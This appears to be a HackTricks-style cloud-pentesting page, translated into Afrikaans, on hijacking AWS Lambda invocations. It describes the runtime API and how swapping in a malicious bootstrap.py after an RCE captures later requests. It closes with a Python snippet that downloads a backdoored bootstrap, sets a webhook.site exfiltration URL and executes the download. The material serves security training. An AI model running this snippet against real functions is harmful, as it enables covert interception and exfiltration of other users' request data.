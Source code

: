 # AWS - Steel Lambda Versoeke

{{#include ../../../../banners/hacktricks-training.md}}

## Lambda Stroom

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is 'n proses buite die houer wat **stuur** **aanroepings** na die **init** proses.
2. Die init proses luister op poort **9001** wat 'n paar interessante eindpunte blootstel:
- **`/2018-06-01/runtime/invocation/next`** – kry die volgende aanroepingsgebeurtenis
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – keer die handler respons vir die aanroep terug
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – keer 'n uitvoeringsfout terug
3. **bootstrap.py** het 'n lus wat aanroepings van die init proses kry en roep die gebruikerskode aan om dit te hanteer (**`/next`**).
4. Laastens, **bootstrap.py** stuur die **respons** na init

Let daarop dat bootstrap die gebruikerskode as 'n module laai, so enige kode-uitvoering wat deur die gebruikerskode uitgevoer word, gebeur eintlik in hierdie proses.

## Steel Lambda Versoeke

Die doel van hierdie aanval is om die gebruikerskode 'n kwaadwillige **`bootstrap.py`** proses binne die **`bootstrap.py`** proses te laat uitvoer wat die kwesbare versoek hanteer. Op hierdie manier sal die **kwaadwillige bootstrap** proses begin **praat met die init proses** om die versoeke te hanteer terwyl die **legitieme** bootstrap **gevang** is wat die kwaadwillige een uitvoer, sodat dit nie versoeke aan die init proses sal vra nie.

Dit is 'n eenvoudige taak om te bereik aangesien die kode van die gebruiker deur die legitieme **`bootstrap.py`** proses uitgevoer word. So die aanvaller kan:

- **Stuur 'n vals resultaat van die huidige aanroep na die init proses**, sodat init dink die bootstrap proses wag vir meer aanroepings.
- 'n Versoek moet gestuur word na **`/${invoke-id}/response`**
- Die invoke-id kan verkry word uit die stapel van die legitieme **`bootstrap.py`** proses deur die [**inspect**](https://docs.python.org/3/library/inspect.html) python module (soos [hier voorgestel](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) of net weer aan te vra by **`/2018-06-01/runtime/invocation/next`** (soos [hier voorgestel](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Voer 'n kwaadwillige **`boostrap.py`** uit wat die volgende aanroepings sal hanteer
- Vir stealthiness doeleindes is dit moontlik om die lambda aanroepingsparameters na 'n aanvaller beheerde C2 te stuur en dan die versoeke soos gewoonlik te hanteer.
- Vir hierdie aanval is dit genoeg om die oorspronklike kode van **`bootstrap.py`** van die stelsel of [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) te kry, die kwaadwillige kode by te voeg en dit van die huidige lambda aanroep af uit te voer.

### Aanval Stappe

1. Vind 'n **RCE** kwesbaarheid.
2. Genereer 'n **kwaadwillige** **bootstrap** (bv. [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Voer** die kwaadwillige bootstrap uit.

Jy kan hierdie aksies maklik uitvoer deur:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Vir meer inligting, kyk na [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Verwysings

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
